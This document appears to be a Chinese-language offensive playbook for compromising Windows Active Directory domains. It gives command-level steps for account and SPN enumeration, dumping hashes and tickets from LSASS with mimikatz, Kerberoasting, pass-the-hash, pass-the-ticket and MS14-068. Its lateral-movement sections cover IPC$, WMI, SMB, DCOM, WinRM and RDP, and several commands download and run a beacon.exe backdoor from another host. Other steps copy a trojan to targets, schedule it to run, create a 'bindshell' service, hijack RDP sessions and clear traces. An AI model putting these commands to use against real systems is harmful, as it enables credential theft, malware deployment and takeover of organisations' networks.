

域内环境基本思路：
获取一台机器权限时，定位域控制器IP及域管理员账号。
利用域成员主机作为跳板扩大范围，利用域管理员可以登陆域中任何成员主机特性，定位出域管理员登陆过的主机IP，设法从域成员主机内存中dump出域管理员密码，进而拿下域控制器、渗透整个内网。
也可以通过域内Web应用，Exchange系统，端口服务等获取权限进行横向。
信息枚举
net user #枚举本地账户
net user /domain #枚举域内所有账户
net user [用户名] /domain # 查看用户详情，所在组。域内最高权限组为“domain admins”。
net group /domain # 枚举域内组
使用powershell进行信息枚举
# 枚举当前所在域的信息
PS C:\Users\hr-user> [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
Forest : liu.ssxx
DomainControllers : {WIN-UJT5JVDTRSO.hr.liu.ssxx}
Children : {}
DomainMode : Unknown
DomainModeLevel : 7
Parent : liu.ssxx
PdcRoleOwner : WIN-UJT5JVDTRSO.hr.liu.ssxx #主域控的名称
RidRoleOwner : WIN-UJT5JVDTRSO.hr.liu.ssxx
InfrastructureRoleOwner : WIN-UJT5JVDTRSO.hr.liu.ssxx
Name : hr.liu.ssxx #所在域的名称
---------------------------------------------------------
#枚举域内所有账户
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name #到此是获取PDC信息。解释,PDC：主域控。
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName #到此为止是组合完整LDAP路径。 eg，LDAP://DC01.corp.com/DC=corp,DC=com
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain #到此为创建搜索对象
$Searcher.filter="samAccountType=805306368" #到此为设置LDAP搜索过滤器，samAccountType=805306368 表示搜索"用户账户"（USER_OBJECT）这是Active Directory中用户对象的特定类型代码，过滤器可根据自己需要调整。
$Result = $Searcher.FindAll() #执行搜索
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
Write-Host "------------------------"
} #遍历结果
-------------------------------------------------------------
#解析嵌套组
#由于windwos组权限复杂，存在多层嵌套，一个组内可能嵌套其他组，因此需要此操作，理清账户组的权限关系，组内包含哪些账号。
第一步，列出所有组
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.name
}
输出：一列组
第二步：选择要查询的组。结果会列出包含的子组或者组内账户，若查询结果仍为组，继续操作此步骤。
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Domain Admins)" // name值设置要查询的组
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{$obj.Properties.member}
输出：CN=Administrator,CN=Users,DC=hr,DC=liu,DC=ssxx //存在用户 administrator
------------------------------------------------------------------
#通过PowerView.ps1枚举登录的用户。目的：寻找高权限账户在哪个服务器，以便锁定攻击目标和通过缓存获取鉴别信息。
#注意下面的命令需要具备管理员权限。
#PowerView.ps1是一款基于 PowerShell的 Active Directory（AD）信息收集与侦察脚本，主要用于渗透测试中的内网域环境枚举。
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser # 解除ps执行限制
Import-Module .\PowerView.ps1 # 导入powerview脚本
Get-NetSession -ComputerName dc01 #其作用是查询目标计算机（此处是域控制器 dc01）上的活动网络会话。用于查询网络共享会话。可以看到哪些主机、哪些账户和目标机器建立了连接。
Get-NetLoggedon -ComputerName client251 # 用于枚举目标计算机（此处是 client251）上当前登录的所有用户。用于查询本地登录会话。
-------------------------------------------------------------------
#枚举服务主体名-SPN-serviceprincipalname
#目的：快速获取域服务位置。
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*" #修改要查询的服务的字段。
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
本地账户攻击
---------------------------------------------------------------------
#抓取本地密码hash值
#由于Kerberos 身份验证时须将密码哈希存储在某处才能更新TGT （TGT默认10小时一更新）请求。在当前版本的 Windows 中，这些哈希存储在本地安全机构子系统服务 (LSASS)内存空间中。
#目的：访问这些哈希，我们可以破解它们以：1.通过暴力破解获得明文密码
# 2.提取TGT和ST，用它们来执行各种操作。
#LSASS 进程是操作系统的一部分并以 SYSTEM 身份运行，因此我们需要 SYSTEM（或本地管理员）权限才能访问存储在目标上的哈希值。
#注：请注意，我们在上面的输出中突出显示了两种类型的哈希。这将根据 AD 实施的功能级别而有所不同。对于 Windows 2003 功能级别的 AD 实例，NTLM 是唯一可用的散列算法。对于运行 Windows Server 2008 或更高版本的实例，NTLM 和 SHA-1（AES 加密的常见伴侣）可能都可用。在 Windows 7 等较旧的操作系统或手动设置的操作系统上，将启用 WDigest,654。启用 WDigest 后，运行 Mimikatz 将在密码散列旁边显示明文密码。
mimikatz.exe #启动
privilege::debug #进入特权模式
sekurlsa::logonpasswords #提取ntlm hash
sekurlsa::tickets #提取TGT和ST
服务账户攻击
# 服务账户攻击-离线破解
#为什么可以离线破解？
#答：ST票据是用服务账户密码的哈希值加密的。可通过字典无限制枚举尝试是否成功解密。
#局限：如果特定 SPN 使用托管或组托管服务帐户，则密码将随机生成、复杂且长度为 120 个字符，从而无法破解。
# 构造ps语法：对一个服务（SPN）请求ST票据。请求成功后，ST票据会缓存本地。
Add-Type -AssemblyName System.IdentityModel New-Object
System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com' #此处填写SPN名称，可以查。
klist # 列出缓存中的ST票据。该命令为ps自带命令。可以用普通账户权限列出当前账户缓存的ST，但是仅可查看列表信息，不能导出。
mimikatz.exe #启动
kerberos::list /export #列出并导出当前ST票据至当前目录。
sudo apt update && sudo apt install kerberoast #安装并用字典破解，也可使用john和hashcat进行破解。
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi
横向移动
哈希传递攻击（PTH）
A.哈希传递攻击的有效场景：
1.内网机器使用相同密码的情况，如果内网无中重复密码的机器则攻击效果有限。
2.取得域管理员账户，可任意hash传递。
-------------------------------------------------------------------------------
B.为了解决无法直接获取或在内存提取明文密码的情况。
1.在Windows 7/2008 R2及之前系统，Wdigest默认开启，明文密码常驻内存，拿到SYSTEM权限后可通过`sekurlsa::wdigest`命令直接提取明文凭据。
2.Windows 8/2012及之后系统默认关闭了Wdigest明文缓存，可通过修改注册表`HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential`为1重新开启，用户下次登录后内存中就会留存明文。
-------------------------------------------------------------------------------
C.适用情况：
1. 采用NTML验证的服务，如 WMI(135)、SMB(445)、RDP(3389)、WINRM(5985)等
2. 已获取本地管理员权限，域内普通用户无法进行哈希传递。
-------------------------------------------------------------------------------
D.测试工具包括以下（根据不同协议/端口采用不同工具）：
Evil-WinRM
CrackMapExec
Impacket 的 wmiexec
Impacket 的 mssqlclient
Impacket 的 psexec
Passing-The-Hash 工具包中的 pth-winexe
-------------------------------------------------------------------------------
IPC横向移动 （全称：基于IPC认证的SMB横向 。SMB横向的子类）
前置条件：
1.获取对方主机的凭据(账户/口令或者目标账户ntml_hash)。
2.启用文件和打印共享(139和445)，防火墙未限制，并且未限制默认共享（存在IPC$，C$或其他有权限上传文件的共享目录）
解释：IPC$(Internet Process Connection)是共享"命名管道"的资源，它是一个用于进程间通信的开放式命名管道，通过提供一个可信的用户名和密码，连接双方可以建立一个安全通道并通过这个通道交换加密数据，从而实现对远程计算机的访问。需要使用目标系统用户的账号密码，使用139、445端口。
ipc$根本不是一个真实的文件或文件夹，它是 Windows 系统预留的一个“虚拟对讲机”（专业叫法是“命名管道”）。它本身不存储任何数据，而是专门用来给系统内部或网络上的两台电脑“传话”的。
流程：
Step 1：建立隐藏通道（建立IPC连接）在自己的机器上执行命令，用窃取的密码与目标内网主机建立管道连接。
net use \\目标IP\ipc$ "密码" /user:administrator
Step 2：悄悄投递木马（文件传输）通道建好后，把恶意程序（如免杀木马、勒索软件）复制到目标的系统盘默认共享目录中。
copy 恶意木马.exe \\目标IP\c$
Step 3：借壳上线（设置计划任务/服务）直接运行容易被察觉，通常会创建一个“计划任务”或“服务”，设定几分钟后自动执行木马。
schtasks /create /tn "Update" /tr "C:\木马.exe" /sc once /st 23:00
Step 4：清理痕迹（断开连接）木马成功运行并反弹回Shell后，立刻删除IPC连接，清理日志，开始下一轮的密码抓取和横向扩散。
net use \\目标IP\ipc$ /del
#建立IPC常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动或删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码
使用工具：
1. Impacket
适用条件：该工具是一个半交互的横向移动工具，适用于创建Socks代理节点使用。
python psexec.py [user]:[password]@192.168.3.32
python psexec.py [user]@192.168.3.32 -hashes :[NTML-HASH]
WMI横向移动（不易被发现）
WMI全称"windows管理规范"，从win2003开始一直存在。它原本的作用是方便管理员对windows主机进行管理。因此在内网渗透中，我们可以使用WMI进行横向移动，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。
利用条件：
1、WMI服务开启，端口135，默认开启。
2、防火墙允许135、445等端口通信。
3、知道目标机的账户密码或HASH。
利用详情：
Impacket套件
外部：(交互式&单执行)
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "whoami"
python wmiexec.py -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32 "whoami"
下载后门：
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
执行后门：
python wmiexec.py sqlserver/administrator:admin!@#45@192.168.3.32 "c:/beacon.exe"
wmic
CS内置：(单执行)
shell wmic /node:192.168.3.32 /user:sqlserver\administrator /password:admin!@#45 process call create "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
shell wmic /node:192.168.3.32 /user:sqlserver\administrator /password:admin!@#45 process call create "c:/beacon.exe"
SMB横向（易被发现）
SMB服务通常由文件服务器提供，它允许客户端计算机通过网络访问服务器上的共享资源。通过SMB用户可以在网络上访问和共享文件夹、文件以及打印机，从而实现在不同计算机之间方便地共享数据和打印输出。利用SMB可通过明文或HASH传递来远程执行。
利用条件：
1、文件与打印机服务开启，默认开启。
2、防火墙允许139、445等端口通信。
3、知道目标机的账户密码或HASH。
利用详情：
Impacket套件
外部：(交互式)
python smbexec.py sqlserver/administrator:admin!@#45@192.168.3.32
python smbexec.py -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator@192.168.3.32
内置：(单执行)
services -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator:@192.168.3.32 create -name shell -display shellexec -path C:\beacon.exe
services -hashes :518b98ad4178a53695dc997aa02d455c sqlserver/administrator:@192.168.3.32 start -name shell
DCOM横向（不易被发现）
DCOM（分布式组件对象模型）是微软的一系列概念和程序接口。它支持不同的两台机器上的组件间的通信，不论它们是运行在局域网、广域网、还是Internet上。利用这个接口，客户端程序对象能够向网络中另一台计算机上的服务器程序对象发送请求。
参考：https://mp.weixin.qq.com/s/9u0kprGbaU1S1BEQWj18AA
条件：
0.适用目标Win7系统以上
1.管理员权限PowerShell
2.远程主机防火墙未阻止，需要「固定端点映射端口135 + 动态高位端口」支持。
Impacket套件
python dcomexec.py sqlserver/administrator:admin!@#45@192.168.3.32
python dcomexec.py sqlserver/administrator:admin!@#45@192.168.3.32 whoami
python dcomexec.py sqlserver/administrator:@192.168.3.32 whoami -hashes :518b98ad4178a53695dc997aa02d455c
注意：高版本Windows（Win10 1809+/Server 2019+）默认收紧了普通DCOM组件的远程激活权限，仅特定白名单COM对象允许远程调用，因此dcomexec.py在较新系统上的成功率低于SMB/WMI类横向。
WMI、SMB、DCOM横向的区别
三者均为Impacket中实现Windows内网横向移动的经典脚本，核心共性是需要目标本地管理员权限、基于Windows合法管理协议实现远程命令执行，但底层调用逻辑、依赖组件、端口要求有明显差异：
一、原理差异
SMB类（psexec.py/smbexec.py为代表）
本质是模拟微软官方PsExec工具的逻辑：先通过SMB协议（445端口）完成NTLM认证建立会话，随后通过RPC接口连接目标服务控制管理器（SCM），上传临时服务二进制/批处理文件到ADMIN$默认共享，远程创建并启动服务执行命令。其中smbexec.py相对隐蔽，不落盘完整EXE，仅生成临时批处理文件执行命令。
核心特征：依赖SMB文件共享能力+服务创建权限，执行载体是系统服务进程（如svchost.exe托管的自定义服务/PSEXESVC.exe）。
WMI类（wmiexec.py）
基于Windows管理规范（WMI）实现，不直接操作服务/落盘文件：先通过135端口RPC连接WMI服务，调用Win32_Process.Create方法远程创建cmd.exe/powershell.exe进程执行命令；为实现回显，默认会把命令输出重定向到目标ADMIN$共享的临时文件，再通过SMB连接读取结果，模拟半交互式Shell。
核心特征：无服务创建行为、内存执行为主，相对隐蔽，仅依赖WMI远程激活权限+临时文件读回权限（可加-nooutput参数关闭回显，完全不依赖SMB共享）。
DCOM类（dcomexec.py）
基于分布式组件对象模型（DCOM）实现：先通过135端口RPC端点映射器定位目标DCOM对象（默认调用MMC20.Application/ShellWindows/ShellBrowserWindow三个白名单COM对象），远程激活组件后通过其方法启动进程执行命令，回显逻辑和wmiexec类似，默认通过SMB共享读回结果。
核心特征：依赖DCOM远程激活权限，高版本Windows（Win10 1809+/Server 2019+）默认收紧普通DCOM组件远程调用权限，成功率低于前两类。
二、所需开放端口
SMB类（psexec/smbexec）
必开：TCP 445（SMB协议、认证、文件操作、服务RPC通信）
可选：早期SMB版本可能用TCP 139，现代系统默认仅用445
不需要135端口（除非额外调用计划任务逻辑）
WMI类（wmiexec）
必开：TCP 135（RPC端点映射、WMI服务连接）
默认回显模式额外需要：TCP 445（读取ADMIN$共享临时结果文件）
动态高位端口（通常49152~65535，依系统配置）：WMI数据传输用，部分环境可能需要放通
若加-nooutput参数无回显执行，仅需135+动态高位端口，不需要445
DCOM类（dcomexec）
必开：TCP 135（RPC端点映射、DCOM对象定位）
默认回显模式额外需要：TCP 445（SMB共享读结果）
必开：动态高位端口（49152~65535，DCOM数据传输端口）
高版本系统若通过组策略限制DCOM端口范围，需放通对应区间
一般情况下，杀软中存在默认共享访问和RPC调用的限制，所以，若目标有杀软，以上这些路基本就堵死了。

winrm横向
简介：
WinRM(Windows Remote Management)，通过WS-management协议来实现管理远程主机，对应的端口是5985和5986（带ssl），在Windows 2008以上的版本才会自启动。
WinRS(Windows Remote Shell，Windows 远程命令行)是一款Windows提供用于远程管理WinRM服务的客户端工具。
利用条件：
1、Win 2012之前利用需要手动开启winRM ，在win 2012之后(包括win 2012)的版本是默认开启的，
2、防火墙对5986、5985端口开放。
与以上三种横向移动方式的优势：**默认不需要本地管理员权限**
开启 WinRM 服务
powershell "Enable-PSRemoting -force"
配置 WinRM 服务
winrm quickconfig
将指定 IP 加入 TrustedHosts，否则无法使用 Winrm 连接远程主机
winrm set winrm/config/client @{TrustedHosts="IP"}
测试远程主机是否开启 WinRM 服务
Test-WsMan IP
winrs和winrm不支持hash
通过Winrs执行命令：winrs -r:IP -u:USER -p:PASS "whoami"
通过Winrs获取远程主机的交互式 Shell：winrs -r:IP -u:USER -p:PASS cmd
通过原生WinRM执行命令（无需代理）
winrm invoke Create wmicimv2/win32_process @{CommandLine="C:\Beacon.exe"} -r:http://IP:5985 -u:USER -p:PASS
winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/5566.exe 5566.exe & 5566.exe"} -r:sqlserver -u:sqlserver\administrator -p:admin!@#45
工具crackmapexec或evil-winrm等（支持HASH但实战场景下要走socks代理）
proxychains4 evil-winrm -i 192.168.3.32 -u administrator -p 'admin!@#45'
proxychains4 crackmapexec winrm 192.168.3.32 -u administrator -p 'admin!@#45' --local-auth -x "whoami"
https://github.com/Hackplayers/evil-winrm
https://github.com/byt3bl33d3r/CrackMapExec
RDP横向
远程桌面服务 支持明文或HASH连接
条件：对方开启RDP服务
连接执行：
明文连接：适用于Socks代理后
mstsc /console /v:192.168.3.32 /admin （mstsc为windwos原生命令，连接时会在当前主机弹出图形界面，易被发现，因此最好采用代理节点进行连接的方式）
proxychains4 xfreerdp3 /u:administrator /p:'admin!@#45' /v:192.168.3.32 +clipboard /cert:ignore /sec:rdp（幸福reerdp为linux中自带rdp-client，支持hash）
HASH连接:适用于Socks代理后
实际情况下：NLA网络级别认证会导致HASH通讯失败，此时可采取下面的方式。
1、RDP历史凭据提取（RDP连接历史保存记录，使用mstsc连接时勾选"记住我的凭据"时会记录）
#历史凭据本身是被加密，需要masterkey解密
https://github.com/GhostPack/SharpDPAPI
SharpDPAPI.exe credentials #提取本机上凭据文件保存的位置，以及对应的masterkey的GUID。
privilege::debug
sekurlsa::dpapi #提取所有masterkey，依照GUID，找到对应的masterkey。
mimikatz dpapi::cred /in:"C:\Users\Administrator\AppData\Local\Microsoft\Credentials\5FBB2585F99BA05366F08E52F1C1740B" /masterkey:3ca7fa8cde1b8d7f5dbc7c576edb83553f25602238513d0c38b016585ea873dfe0fd08727ec6e10c245dd0dcd414fd96354aeaf30671705335daffec96bd21d4 #最后利用mimikatz读取，可获取明文口令。
#注意：此方法需要具备管理员权限。
2、RDP劫持（对于实战场景作用不大）
使用场景：
1.近期有两个或以上账户登录，存在会话记录（任务管理器-->用户）
2.获取本机管理权限。
作用和局限：
1.无密码会话接管：若以 SYSTEM 权限运行，可直接劫持目标主机上已断开的高权限用户（如域管理员、本地管理员）遗留的RDP会话，直接进入该用户的桌面环境，继承其权限，无需知道用户密码。
2.会话重定向：可将目标会话重定向到本地控制台（物理显示器输出）或当前操作会话，实现无缝接入。
3.（实验性）影子监控：尝试通过RDP Shadow功能静默监控目标会话操作，不中断用户操作（稳定性依赖系统版本）。
4.GUI显示。
https://github.com/bohops/SharpRDPHijack
SharpRDPHijack.exe --tsquery=localhost
SharpRDPHijack.exe --tsquery=目标机器名
劫持会话（图形化，影子模式）
SharpRDPHijack.exe --session=会话ID
SharpRDPHijack.exe --session=会话ID --shadow
利用低速密码枚举手段横向
C:\Users\XXXX>net accounts # 通过此命令查看锁定阈值，已调整枚举频率
强制用户在时间到期之后多久必须注销?: 从不
密码最短使用期限(天): 0
密码最长使用期限(天): 42
密码长度最小值: 0
保持的密码历史记录长度: None
锁定阈值: 10
锁定持续时间(分): 10
锁定观测窗口(分): 10
计算机角色: WORKSTATION
命令成功完成。
使用Spray-Passwords.ps1、crackmapexec等工具进行名密码喷洒攻击。
//明文密码传递
proxychains4 crackmapexec smb 192.168.3.32 -u administrator -p 'admin!@#45' --local-auth -x "whoami"
//NTLM Hash传递
proxychains4 crackmapexec smb 192.168.3.32 -u administrator -H 518b98ad4178a53695dc997aa02d455c --local-auth -x "whoami"
//多目标喷射
proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p pass.txt "whoami"
proxychains4 crackmapexec smb 192.168.3.21-32 -u administrator -p pass.txt --local-auth -x "whoami"
注意：若是本地账户需添加--local-auth 参数
读取内存后无法获取明文密码时的解决思路：
-
利用（PTH,PTK）等进行移动不需要明文
-
利用其他服务协议进行PTH（SMB/WMI等）
-
利用注册表开启（wdigest auth）进行获取。注：需要系统重启才能生效，易被发现。
-
利用工具或者第三方平台（HASHCAT进行破解获取）
利用hash进行暴力破解明文 平台：https://www.cmd5.com/ 工具：https://hashcat.net/hashcat/ 破解 hashcat -a 0 -m 1000 --force 518b98ad4178a53695dc997aa02d455c pass.txt -m 密文类型 -a 破解类型 ?l 小写 ?s 符号 ?d 数字 字典破解： hashcat.exe -a 0 -m 1000 hash.txt pass.txt 暴力破解： hashcat.exe -a 3 -m 1000 518b98ad4178a53695dc997aa02d455c ?l?l?l?l?l?s?s?s?d?d
票据传递（PTT）
这是一种将窃取的 NTLM 哈希或 AES 密钥转换为 Kerberos 票据，从而在 Kerberos 优先的环境中实现横向移动的攻击技术。其核心是 “升级”凭据，从仅能用于 NTLM 认证的哈希，升级为功能更全的 Kerberos TGT
票据传递使用场景：
- 无法获得明文口令，且无法使用hash进行传递攻击（内网内无重复密码的账户）
- PTH可利用的端口或服务未启用或被防火墙拦截。（WMI、SMB、DCOM、RDP、WINRM等）
- 有杀软，导致PTH的路径被拦截。
- 仅适用域内，非工作组环境。
利用方式：
- 通过漏洞
- 利用NTLM转换成TGT
- 机器历史缓存票据
- 加密类型可爆破
利用MS14-068漏洞进行票据传递
介绍：
MS14-068是密钥分发中心（KDC）服务中的Windows漏洞。它允许经过身份验证的用户在其Kerberos票证（TGT）中插入任意PAC。该漏洞位于kdcsvc.dll域控制器的密钥分发中心(KDC)中。用户可以通过呈现具有改变的PAC的Kerberos TGT来获得票证。允许攻击者将域内任意用户权限提升至*域管理级别*。
影响版本：
Windows Server 2003
Windows Server 2008
Windows Server 2008 R2
Windows Server 2012 和
Windows Server 2012 R2
漏洞产生点：
在 TGS-REQ 阶段（KDC 准备发放服务票据 ST 时）。
当 KDC 收到客户端发来的 TGT 后，它的核心任务是验证 TGT 是不是自己发的，并提取里面的用户信息来签发 ST。就在这个过程中，KDC 犯了个致命错误：它没有死守底线去严格核验 TGT 内部镶嵌的 PAC 的签名完整性。攻击者利用恶意构造的数据绕过PAC检测，把伪造的 PAC 成功走私进了 KDC 的信任圈。
条件：
1.域内普通账户的sid值、明文密码(当前exp工具仅支持明文密码)
2.域控的IP
3.需要至少具备本机的管理员权限。（涉及票据导入内存）
实现步骤：
1.获取SID值：shell whoami/user
2.生成票据文件：（这一步涉及域内通信，需要由域内普通账户操作）
shell ms14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
3.清除票据连接：（删除所有旧的、低权限的票据，防止它们干扰后续操作）
shell klist purge
4.内存导入票据：（这一步需使用管理员账户进行操作）
mimikatz kerberos::ptc TGT_webadmin@god.org.ccache
5.连接目标上线：
shell dir \\OWA2010CN-GOD\c$
shell net use \\OWA2010CN-GOD\C$
copy beacon.exe \\OWA2010CN-GOD\C$
sc \\OWA2010CN-GOD create bindshell binpath= "c:\beacon.exe"
sc \\OWA2010CN-GOD start bindshell
利用NTML-hash生成票据
特点：
1.无需管理员权限，只要有NTLM_hash，通过普通域内账户就可以实现票据生成和导入。
条件：
1.需具备NTML-hash。
2.由于涉及票据，生成票据时需要与域控通信，所以用户范围仅限域内用户，本地账户，如administrator，无法使用此方式。
步骤：
生成票据：shell kekeo "tgt::ask /user:Administrator /domain:god.org /ntlm:ccef208c6485269c20db2cad21734fe7" "exit"
导入票据：shell kekeo "kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi" "exit"
查看票据：shell klist
利用票据连接：shell dir \\owa2010cn-god\c$
从机器历史缓存提取TGT票据，并重新认证
为什么会缓存票据：
域内机器进行认证操作时，会优先采用Kerberos认证，因此必定会在本机产生TGT票据缓存。
条件：
1.有本地管理员权限。（本地管理员、SYSTEM账户可以获取所有账户票据缓存，域内账户由于受到票据缓存隔离的影响，仅可获取自身账户的票据）
2.最近有过其他账户登录本机。
3.票据还在有效期内（默认10小时）-这条很苛刻。
利用：
导出票据：
mimikatz sekurlsa::tickets /export （需要管理员权限）
清楚多余票据：shell klist purge （排除其余票据干扰，否则肯不会优先使用导入的票据）
导入票据：（普通域内账户可以实现）
mimikatz kerberos::ptt C:\Users\webadmin\Desktop\[0;22d3a]-2-1-40e00000-Administrator@krbtgt-god.org.kirbi
查看票据：shell klist
利用票据连接：shell dir \\owa2010cn-god\c$
疑问点：
A.在本机上导出在导入票据有什么意义，是不是多此一举？
补充知识点：
所有用户的 Kerberos 票据，最终都存储在系统的一个核心进程 lsass.exe的内存中。该进程为每个用户会话（Session）建立了独立的 Kerberos 缓存空间------kerberos缓存隔离 (当前域内账户仅能看到和使用自身的缓存票据，看不到其他账户的缓存票据)。
本地 Administrator/SYSTEM：在 Windows 的权限模型中，本地最高权限凌驾于一切用户会话之上。它拥有 SeDebugPrivilege（调试权限），这意味着它可以强行翻开 lsass.exe的“内存账本”，无视任何会话隔离。因此可以打破隔离，看到并窃取这台机器上所有域内账户的票据。
因为以上的原因，所以即使在本机中，也需要进行导出（从本地administartor中的缓存导出）再导入（到入至域内账户缓存）的操作。这就解释了疑问点A。
扩展：可以在A机器导出缓存，在B机器上导入并使用。
优势：因为这种攻击方式，是由 域内的A账户 使用 域内的B账户 或 域内管理员 的票据，因此可以隐藏攻击账户的身份。
Kerberoasting攻击
本质是破解服务账户的密码。
*条件：
1.在 "域控机器-本地安全策略-本地策略-安全选项-配置kerberos允许的加密类型" 设置 "RC4_HMAC_MD5" 加密算法。
2.服务账户做好使用弱密码。目标的 服务账户 不能是托管服务账户（托管服务账户的密码是随机生成的240字节长度，根本难以破解）
*攻击过程：（过程分为：发现RC4加密的票据------> 导出票据 或 票据的hash -------> 破解）
手动枚举的方式：
1.powershell setspn -T [域名] -q */* #枚举指定域的所有SPN
2.mimikatz kerberos::ask /target:MSSQLSvc/SqlServer.god.org:1433 #使用mimikatz工具，在/target参数后指定SPN名，主动请求该服务，获取ST票据。
或者使用powershell原生命令请求票据：
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '[spn名]'
3.klist # 查看缓存列表，找到刚才请求的票据，"查看对应ST kerberos票证加密类型" 是否显示"RC4***"。
4.mimikatz kerberos::list /export # 使用mimikatz导出票据
5.python tgsrepcrack.py pass.txt "xx.kirbi" 使用py脚本破解，pass.txt是密码字典。
工具自动化的方式：(这里工具生成的是hash，而不是上面.kirbi文件)
1. Rubeus kerberoast #自动检测域内SPN是否存在RC4加密的票据。（rubeus需要放到目标机器上，考虑免杀）
或者使用 python GetUserSPNs.py -request -dc-ip [域控IP] [域名]/[域内账户]:[密码] -outputfile hash.txt #也是自动检测。(该工具一般在攻击机上，所以需要建好socket节点访问目标机，而且需要指定账户、密码、域控信息等)
2.hashcat -m 13100 hash.txt pass.txt --force #依旧破解
*现状：（即将过时的攻击手段）
